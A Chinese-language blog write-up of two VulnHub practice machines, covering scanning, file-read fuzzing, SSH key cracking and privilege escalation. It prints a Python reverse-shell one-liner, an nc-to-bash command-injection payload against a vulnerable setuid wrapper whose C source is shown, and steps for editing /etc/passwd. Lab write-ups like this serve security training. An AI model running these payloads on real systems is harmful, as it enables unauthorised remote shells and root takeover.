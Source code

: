 ```yaml
---
title: Vuln EvilBox:One & BoredHackerBlog_Cloud_AV
published: 2024-12-12
pinned: false
description: Vuln EvilBox:One & BoredHackerBlog_Cloud_AV wp
tags: ['vuln']
category: 渗透
licenseName: "MIT"
author: zsm
draft: false
date: 2024-12-12
pubDate: 2024-12-12
---
```



## EvilBox: One
### 靶场链接
https://www.vulnhub.com/entry/evilbox-one,736/

#### 日常扫描
![image.png](https://www.helloimg.com/i/2025/01/09/677f6bd101d98.png)
发现这玩意靶机（这个需要自己配置一下网卡）
nmap扫描端口
![image-1.png](https://www.helloimg.com/i/2025/01/09/677f6c1aa458a.png)
没有用，dis或者是dirb扫一下
![image-2.png](https://www.helloimg.com/i/2025/01/09/677f6c1be4db5.png)
发现这几个，一个一个点进去看一眼，http://192.168.64.4/secret/ 网页是纯白的，
![image-4.png](https://www.helloimg.com/i/2025/01/09/677f6c1b24285.png)
#### 爆破
扫一下尾缀发现真有.php，bp抓包看一下
![image-5.png](https://www.helloimg.com/i/2025/01/09/677f6c1b66d3d.png)
用fuzz爆破一下，
![image-6.png](https://www.helloimg.com/i/2025/01/09/677f6c1c9baf1.png)
发现
mowree:x:1000:1000:mowree,,,:/home/mowree:/bin/bash
可能是ssh的用户，页面上去看一样是密码，gpt格式化一下
![image-7.png](https://www.helloimg.com/i/2025/01/09/677f6c20aea62.png)
john去爆破私钥
>python /usr/share/john/ssh2john.py id_rsa > hash
john hash

得到密码是unicorn
#### ssh提权
![image-8.png](https://www.helloimg.com/i/2025/01/09/677f6c1d07bbb.png)
ssh上去
![image-9.png](https://www.helloimg.com/i/2025/01/09/677f6c1d55f91.png)
发现/etc/passwd可以修改，直接openssl passwd -1生成密码，然后把root后面的x改了，还有一个方法可以用https://blog.csdn.net/weixin_46700042/article/details/108813878
linpeas过两天考完试再学学怎么用（）
 
## BoredHackerBlog_Cloud_AV
### 靶场链接
https://www.vulnhub.com/entry/boredhackerblog-cloud-av,453/

#### 日常扫描
![BoredHackerBlog_Cloud_AV.png](https://www.helloimg.com/i/2025/01/09/677f70c3545a5.png)
发现靶机，nmap启动
![BoredHackerBlog_Cloud_AV1.png](https://www.helloimg.com/i/2025/01/09/677f70c2e5b89.png)
有个http服务页面，上去看一眼
#### sql注入/密码爆破
![BoredHackerBlog_Cloud_AV2.png](https://www.helloimg.com/i/2025/01/09/677f70c31c38b.png)
登陆框页面，sql注入/密码爆破都可以，当然了，身为密码手，直接弱密钥试试，password直接进去了（）
![BoredHackerBlog_Cloud_AV3.png](https://www.helloimg.com/i/2025/01/09/677f70c32479e.png)
#### 反弹shell
里面还有个框，试一下管道符拼接，没啥用，有python，直接反弹shell扔进去
>1|python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.64.3",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

本地开nc监听一下
![BoredHackerBlog_Cloud_AV4.png](https://www.helloimg.com/i/2025/01/09/677f70c2ead2f.png)
有个.app和.sql，可能是账号密码什么的，直接拉取到本地
![BoredHackerBlog_Cloud_AV5.png](https://www.helloimg.com/i/2025/01/09/677f70c2b3a36.png)
![BoredHackerBlog_Cloud_AV6.png](https://www.helloimg.com/i/2025/01/09/677f70c524d88.png)
![BoredHackerBlog_Cloud_AV7.png](https://www.helloimg.com/i/2025/01/09/677f70c5da06d.png)
发现是密码，靶机有22端口，看看能不能ssh，尝试爆破后没有用
查了一下应该是suid提权（）
> find / -perm /4000 -type f 2>/dev/null

![BoredHackerBlog_Cloud_AV8.png](https://www.helloimg.com/i/2025/01/09/677f70c62d392.png)
发现scanner这个，刚才用过，可能还是在这里，进入文件夹，看一下权限
![BoredHackerBlog_Cloud_AV9.png](https://www.helloimg.com/i/2025/01/09/677f70c5eb945.png)
发现root了，甚至有个.c文件，看看
```
#include <stdio.h>

int main(int argc, char *argv[])
{
char *freshclam="/usr/bin/freshclam";

if (argc < 2){
printf("This tool lets you update antivirus rules\nPlease supply command line arguments for freshclam\n");
return 1;
}

char *command = malloc(strlen(freshclam) + strlen(argv[1]) + 2);
sprintf(command, "%s %s", freshclam, argv[1]);
setgid(0);
setuid(0);
system(command);
return 0;

}
```
我们需要注意的是ClamAV是一个linux的病毒扫描软件。freshclam相当于是一个更新clamav的病毒库的功能。同时对输入的参数进行的长度的限制，同时要求必须有参数的传入。这玩意参数会扔到system执行，那么反弹shell试试

>./update_cloudav "aasff | nc 192.168.64.3 5000 | /bin/bash | nc 192.168.64.3 6000"

连上去之后发现是root
![BoredHackerBlog_Cloud_AV10.png](https://www.helloimg.com/i/2025/01/09/677f70c6008ca.png)
![BoredHackerBlog_Cloud_AV11.png](https://www.helloimg.com/i/2025/01/09/677f70c6479df.png)
